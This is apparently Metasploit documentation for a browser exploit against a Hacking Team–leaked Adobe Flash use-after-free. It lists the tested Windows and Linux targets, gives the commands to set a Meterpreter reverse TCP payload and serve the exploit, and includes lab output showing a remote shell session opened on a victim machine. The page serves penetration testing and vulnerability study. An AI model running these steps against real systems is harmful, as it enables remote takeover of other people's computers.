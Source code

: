 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
1. Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
2. Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194.
3. Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
4. Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194.
5. Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

### IE 11 and Flash 18.0.0.194

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf 
msf exploit(adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set LHOST 172.16.178.160
LHOST => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.80
srvhost => 172.16.178.80
msf exploit(adobe_flash_hacking_team_uaf) > set SRVPORT 80
SRVPORT => 80
msf exploit(adobe_flash_hacking_team_uaf) > set URIPATH /
URIPATH => /
msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(adobe_flash_hacking_team_uaf) > [*] Local IP: http://127.0.0.1:80/
[*] Server started.

msf exploit(adobe_flash_hacking_team_uaf) > 
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Gathering target information.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML response.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML...
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/AsvCG.swf
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending SWF...
[*] Sending stage (957999 bytes) to 172.16.178.80
[*] Meterpreter session 1 opened (172.16.178.160:4444 -> 172.16.178.80:49167) at 2017-03-26 22:51:29 +0900

msf exploit(adobe_flash_hacking_team_uaf) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN7X64TJ7XH-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
```
